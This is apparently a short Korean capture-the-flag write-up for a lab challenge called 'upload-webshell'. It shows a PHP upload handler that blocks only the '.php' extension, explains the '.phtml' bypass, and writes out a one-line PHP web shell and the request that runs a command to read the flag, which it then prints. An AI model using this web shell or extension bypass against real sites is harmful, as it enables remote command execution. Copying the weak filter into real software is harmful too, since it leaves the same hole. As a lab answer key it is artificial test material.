

## upload-webshell

```python
$name = basename($_FILES['f']['name']);
    // 허술한 확장자 검사: .php 만 차단 (.phtml/.php5/대소문자 우회 가능)
    if (preg_match('/\.php$/i', $name)) { echo "php 금지!"; }
    else {
        move_uploaded_file($_FILES['f']['tmp_name'], "$dir/$name");
        echo "업로드됨: <a href='uploads/$name'>uploads/$name</a>";
```

확장자 명을 php만 검사하고 있기에 .phtml과 같은 방식으로 우회가 가능하다.

내용이 `<?php system($_GET[0]); ?>`  인 파일 shell.phtml을 웹사이트에 업로드 하였다.

```python
http://edu.arang.kr:9501/uploads/shell.phtml?0=cat /flag_upload.txt 
```

이와 같이 요청을 보내게 되면 웹쉘에 있는 get 파라미터를 실행하여 flag를 획득 할 수 있다.



flag{86e68319c87ea666304a}
